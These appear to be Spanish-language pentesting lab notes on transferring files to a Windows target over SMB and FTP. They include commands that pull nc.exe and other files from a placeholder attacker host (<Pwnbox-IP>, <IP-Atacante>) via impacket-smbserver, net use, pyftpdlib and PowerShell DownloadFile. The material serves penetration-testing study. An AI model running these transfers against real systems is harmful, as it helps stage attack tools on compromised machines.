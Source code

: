 - **Copiar un archivo desde SMB (sin autenticación):**
```
copy \\<Pwnbox-IP>\share\nc.exe`
```
Este comando descarga en el directorio actual de trabajo tal archivo.
> Nota: Nuevas versiones de Windows bloquean acceso de invitados no autenticados.

- **Montar SMB con usuario y contraseña (desde máquina atacante):**
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`
```
- **Conectar al SMB desde Windows:**
```
net use n: \\<Pwnbox-IP>\share /user:test test copy n:\nc.exe`
```

- **Notas importantes:**
    
    - Permite transferir archivos incluso si el firewall bloquea FTP o HTTP.
        
    - Útil para escenarios de laboratorio o pruebas de pentesting.
        
    - Montar la unidad (net use) ayuda a evitar errores de acceso directo.

--------------

# FTP Downloads
Protocolo de transferencia de archivos que usa **TCP/21** (comandos) y **TCP/20** (datos).

- **Montar un servidor FTP en el atacante (Pwnbox):**
1. Instalar módulo Python:
```
sudo pip3 install pyftpdlib
```

2. Iniciar servidor FTP en el puerto 21:
```
sudo python3 -m pyftpdlib --port 21`
```

Por defecto permite **acceso anónimo** si no se define usuario/contraseña.

### 1. Transferir archivos usando PowerShell

```
(New-Object Net.WebClient).DownloadFile('ftp://<IP-Atacante>/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Descarga el archivo directamente desde el servidor FTP al destino en Windows.

### 2. Transferir archivos usando un archivo de comandos FTP
Cuando tengo **una shell limitada o no interactiva** en Windows (por ejemplo, un shell remoto que no permite teclear comandos en tiempo real), no puedes usar FTP de manera normal escribiendo comandos uno a uno.
